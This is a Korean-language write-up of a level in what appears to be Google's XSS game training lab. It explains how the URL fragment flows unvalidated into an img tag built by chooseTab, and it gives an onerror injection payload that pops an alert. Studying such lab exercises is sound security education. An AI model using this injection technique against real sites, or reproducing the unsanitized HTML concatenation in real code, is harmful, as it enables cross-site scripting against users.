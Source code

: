 ```html
        top.postMessage(self.location.toString(), "*");
      }

      window.onload = function() { 
        chooseTab(unescape(self.location.hash.substr(1)) || "1");
      }

      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(unescape(self.location.hash.substr(1)));
        }
      }, false);
    </script>

  </head>
  <body id="level3">
    <div id="header">
      <img id="logo" src="/static/logos/level3.png">
      <span>Take a tour of our cloud data center.</a>
    </div>

    <div class="tab" id="tab1" onclick="chooseTab('1')">Image 1</div>
    <div class="tab" id="tab2" onclick="chooseTab('2')">Image 2</div>
    <div class="tab" id="tab3" onclick="chooseTab('3')">Image 3</div>

    <div id="tabContent">&nbsp;</div>
  </body>
</html>
```

`chooseTab` 함수에는 인자로 `num`이 들어가는데, 이 `num`의 값은 아래 부분에 검증이 없이 그대로 들어간다.  

```html
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
$('#tabContent').html(html);
```

또한 이 `num`의 값은 `URL`에서 `# 뒤의 값`을 가져오게 된다.  

따라서 `URL`에 `#` 뒤에 위의 코드에 적절히 들어가 동작하도록 만들어준다면 alert 창을 띄울 수 있을 것 같다.  

이에 URL의 # 뒤에 원래 있던 숫자 대신 `' onerror='js:alert(1);' '`을 넣어보았다.  

이 경우, 취약점이 존재하던 위의 코드는 아래와 같은 형태가 된다.  

```html
html += "<img src='/static/level3/cloud' onerror='js:alert(1);' '.jpg' />";
$('#tabContent').html(html);
```

`/static/level3/cloud`라는 이미지 파일은 서버에 존재하지 않으므로, `onerror`를 호출하게 되고, 뒤의 `.jpg`는 아무런 역할을 하지 않을 것이다.  

그 결과 아래와 같이 `alert` 창을 띄울 수 있었다.  

![]({{ site.baseurl }}/images/xssgame/xssgame_09.PNG)

---  
